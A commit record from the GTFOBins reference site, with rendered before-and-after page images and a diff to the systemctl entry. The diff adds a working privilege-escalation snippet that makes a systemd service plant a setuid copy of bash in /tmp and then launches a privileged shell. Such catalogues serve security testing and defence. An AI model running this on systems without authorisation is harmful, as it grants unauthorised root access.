

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/systemctl.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1123 px from its top, so only the background shows below that.

Commit message:
Update systemctl.md

```diff
--- a/_gtfobins/systemctl.md
+++ b/_gtfobins/systemctl.md
@@ -10,6 +10,16 @@ functions:
         WantedBy=multi-user.target' > $TF
         ./systemctl link $TF
         ./systemctl enable --now $TF
+    - code: |
+        TF=$(mktemp).service
+        echo '[Service]
+        Type=oneshot
+        ExecStart=/bin/sh -c "cp /bin/bash /tmp/shell && chmod +s+x /tmp/shell"
+        [Install]
+        WantedBy=multi-user.target' > $TF
+        ./systemctl link $TF
+        ./systemctl enable --now $TF
+        /tmp/shell -p
   sudo:
     - code: |
         TF=$(mktemp)
```
